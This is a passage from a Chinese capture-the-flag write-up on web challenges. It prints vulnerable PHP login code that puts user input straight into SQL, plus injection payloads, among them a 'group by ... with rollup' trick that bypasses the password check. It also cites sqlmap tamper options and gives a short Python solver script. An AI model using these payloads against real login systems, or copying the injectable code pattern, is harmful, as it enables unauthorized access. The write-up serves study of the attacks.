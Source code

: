 ```php
$con = mysql_connect("XXXXXX","XXXXXX","XXXXXX");
if (!$con){
	die('Could not connect:' . mysql_error());
}
$db="XXXXXX";
mysql_select_db($db, $con);
$sql="SELECT * FROM interest WHERE uname ='{$_POST['uname']}'";
$query = mysql_query($sql);
if (mysql_num_rows($query) == 1) {
    $key = mysql_fetch_array($query);
    if($key['pwd'] == $_POST['pwd']) {
        print "CTF{XXXXXX}";
    }else{
        print "浜﹀彲璧涜墖锛�";
    }
}else{
	print "涓€棰楄禌鑹囷紒";
}
mysql_close($con);
?>
```

可以看到过滤了很多注入关键字以及数组绕过等姿势，随后根据用户输入的 `uname` 去查询数据库中的 `pwd`，然后和用户 POST 的 `pwd` 比较，一致则通过。注意到这里也是一个弱等号，因此可以考虑空值绕过。还要注意查询输出的结果必须只有一行。

先查看表里一共有几行数据：
```
1' or 1 limit 1 offset 0#
1' or 1 limit 1 offset 1#
1' or 1 limit 1 offset 2#
```

前两条都返回 ` 浜﹀彲璧涜墖锛�`，而第三条返回 ` 涓€棰楄禌鑹囷紒 `（这里的乱码是因为编码问题，懒得转换了），因此表里一共只有两条数据。那么怎么插入一条新的数据，使得其中的 `pwd` 为 `NULL` 呢？

我们可以利用 `rollup` 统计功能实现。构造 payload：
```
1' or 1 group by pwd with rollup limit 1 offset 2#
```
注意这里的顺序。先 `group by pwd with rollup` 插入一条 `pwd` 为 `NULL` 的统计数据，然后 `limit 1 offset 2` 取最新的这一条数据。此时，由于我们 POST 的 `pwd` 也是空，因此通过验证。

## 简单的 sql 注入之 3/2/1
第三题 sqlmap 报错注入。

第二题还是 sqlmap，不过由于过滤空格（和右括号）需要 `--tamper=space2comment`。

不知道为什么第一题似乎和第二题一样。

## 天下武功唯快不破
```python
import requests
import base64

url = 'http://ctf5.shiyanbar.com/web/10/10.php'
response = requests.get(url)

flag = base64.b64decode(response.headers['FLAG']).decode().split(':')[1]

data = {'key': flag}
res = requests.post(url=url, data=data)
print(res.text)
```
